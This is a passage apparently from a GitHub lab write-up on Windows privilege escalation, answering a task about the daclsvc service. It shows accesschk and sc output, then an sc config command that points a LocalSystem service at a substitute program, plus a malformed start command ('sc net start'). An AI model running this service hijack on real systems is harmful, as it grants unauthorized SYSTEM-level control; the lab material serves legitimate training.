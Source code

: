 
<p><em>Answer the questions below</em></p>

<p>3.1. What is the original BINARY_PATH_NAME of the daclsvc service?<br>
<code>C:\Program Files\DACL Service\daclservice.exe</code></p>


```bash
C:\PrivEsc>accesschk.exe /accepteula -uwcqv user daclsvc
RW daclsvc
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_CHANGE_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL

C:\PrivEsc>
```

<img width="810" height="247" alt="image" src="https://github.com/user-attachments/assets/d88cf94b-e0c5-44c2-87c2-1d98f2d9c39a" />

```bash
C:\PrivEsc>sc qc daclsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\DACL Service\daclservice.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : DACL Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

C:\PrivEsc>
```

```bash
C:\PrivEsc>sc config daclsvc binpath="\"C:\PrivEsc\program.exe\""
[SC] ChangeServiceConfig SUCCESS

C:\PrivEsc>
```

```bash
C:\PrivEsc>sc net start daclsvc
```


<h2 align="center">Task 4 . Service Explots - Unquoted Service Path</h2>

